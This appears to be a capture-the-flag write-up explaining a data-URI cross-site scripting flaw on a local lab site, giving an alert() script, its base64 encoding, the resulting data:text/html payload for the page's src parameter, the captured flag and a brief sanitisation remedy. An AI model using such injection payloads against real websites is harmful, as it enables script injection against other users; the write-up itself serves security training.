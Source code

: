 # DATA_URI_XSS
XSS using data URI. XSS is a type of security vulnerability found in web applications that enables malicious attackers to inject client-side script into web pages viewed by other users. Our website is vulnerble to such an attack.     


## Example
If we got the <a href=">home<a/> we see a number of images, one of those has a link to that redirects us to <a href="http://192.168.43.251/?page=media&src=nsa">this media page</a> where we are presented with a page that has a this <a href="http://192.168.43.251/images/nsa_prism.jpg">link</a>. In essence this image is sourced using data uri which on inspection can be manipulated.

## Exploit
You can either edit the source on the actual element or on the url bar, we'll use the url bar. What we want to do is encode a js script: 
```bash
 (<script>alert('It is about to go down')</script>)
``` 

When we base 64 encode our js sting using a python script we get this 

```bash
 PHNjcmlwdD5hbGVydCgnSXQgaXMgYWJvdXQgdG8gZ28gZG93bicpPC9zY3JpcHQ+ 
``` 

We can append that to the src as: 

```bash
 data:text/html;base64,PHNjcmlwdD5hbGVydCgnSXQgaXMgYWJvdXQgdG8gZ28gZG93bicpPC9zY3JpcHQ+ 
``` 

This now allows us to get our flag:928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d.

## Remedy
* Sanitise all client side input to make, this help in avoiding such attacks

## Resources
* https://stackabuse.com/encoding-and-decoding-base64-strings-in-python/
* https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris